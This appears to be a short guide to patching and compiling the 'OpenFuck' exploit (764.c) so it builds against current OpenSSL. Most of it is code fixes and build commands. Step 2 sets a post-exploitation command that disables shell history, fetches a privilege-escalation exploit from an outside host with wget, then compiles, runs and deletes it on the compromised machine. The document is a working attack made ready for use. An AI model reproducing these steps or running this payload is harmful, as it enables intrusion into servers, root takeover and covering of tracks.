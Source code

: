 # some solution for openfuck errors. <br>
  1) Add this below line 24 (the last #include): <br>
    <pre> <code>
    #include <openssl/rc4.h>
    #include <openssl/md5.h>
    #define SSL2_MT_ERROR 0
    #define SSL2_MT_CLIENT_FINISHED 3
    #define SSL2_MT_SERVER_HELLO 4
    #define SSL2_MT_SERVER_VERIFY 5
    #define SSL2_MT_SERVER_FINISHED 6
    #define SSL2_MAX_CONNECTION_ID_LENGTH 16
    </code> </pre>

  2) Replace COMMAND2 on (now) line 672: <br>
    <code>#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"</code>


  3) Update declaration of variables Line 961, change : <code>unsigned char *p, *end;</code> <br>
    By adding const : <code>const unsigned char *p, *end;</code>
  
  4) Replace the if on (now) line 1078 with:
  if (EVP_PKEY_get1_RSA(pkey) == NULL) {

  5) Replace the encrypted_key_length code on (now) line 1084 with:
    <code>encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);</code>
  6) Install libssl-dev (if not already installed):
    <code>apt-get install libssl-dev</code>
  7) Compile!
    <code> gcc -o OpenFuck 764.c -lcrypto </code>
